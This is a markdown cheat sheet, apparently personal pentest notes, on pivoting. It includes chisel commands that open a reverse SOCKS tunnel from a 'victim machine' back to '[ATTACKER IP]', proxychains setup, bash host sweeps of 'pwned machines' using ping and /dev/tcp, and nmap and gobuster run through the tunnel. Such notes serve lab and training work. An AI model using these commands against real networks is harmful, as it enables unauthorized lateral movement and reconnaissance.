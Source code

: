 # Pivoting


It could be handy to have the executables to share between every new machine:
- <https://github.com/andrew-d/static-binaries>







## SSHuttle
- <https://www.youtube.com/watch?v=1BLAeXOQOl4>







## chisel
- <https://github.com/jpillora/chisel>

Note: depending on the environment, the latest version may not work.

```
# listen from attacker machine
chisel server --reverse -p [PORT NUMBER]

# from victim machine 1
chisel client [ATTACKER IP]:[PORT NUMBER] R:socks


```



### Proxychains
- dynamic_chain: Uses proxies in the order they appear in the list. All proxies in the chain must be available.
- random_chain: Chooses a random proxy from the list for each connection.
- static_chain: Uses proxies in the exact order they are listed.


unset `strict_chain`` and set `dynamic_chain` in `/etc/proxychains.conf`
at the end of proxychains.conf add `socks5 127.0.0.1 [tunnel PORT]`
Note: Tunnel port is 1080 by default
also in the firefox:
- manual proxy configuration > Sock Host: 127.0.0.1 Port: [tunnel PORT]
or
- set foxy proxy
or
- launch it using `proxychains -q firefox`	









## Enumeration

### see active hosts pwned machines
```bash

hostname -I


# script 1
#!/bin/bash
for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 20.20.20.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 20.20.20.$i está activo"
        fi
done


# script 2 (in case ping is not installed)
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$host/80 &> /dev/null" &&
	echo "30.30.30.$host";
done; wait
	
```

### nmap
```
sudo proxychains -q nmap -p [PORT NUMBER] -sCVT -Pn -n [IP]	
```



### gobuster
```
gobuster dir -u http://20.20.20.3 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
	-x php,doc,html,txt \
	--proxy socks5://127.0.0.1:1080
```










## socat
On Windows use `netsh`
